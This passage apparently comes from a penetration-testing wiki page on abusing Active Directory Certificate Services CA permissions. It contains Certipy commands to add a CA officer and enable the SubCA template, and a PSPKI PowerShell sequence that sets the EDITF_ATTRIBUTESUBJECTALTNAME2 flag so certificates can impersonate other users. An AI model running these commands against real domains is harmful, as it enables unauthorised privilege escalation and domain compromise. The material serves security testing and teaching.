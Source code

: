```bash
# Add a new officier
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -add-officier 'user'

# List all the templates
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -enable-template 'SubCA'
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to modify the CA object ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is run).

```powershell
Certify.exe cas

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI

# Get the current value of EDITF_ATTRIBUTESUBJECTALTNAME2 and modify it with SetConfigEntry
$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.domain.local"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.domain.local\CA" -getreg "policy\EditFlags"
```



If RSAT is not present, it can installed like this:

```batch
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0
```
{% endtab %}
{% endtabs %}
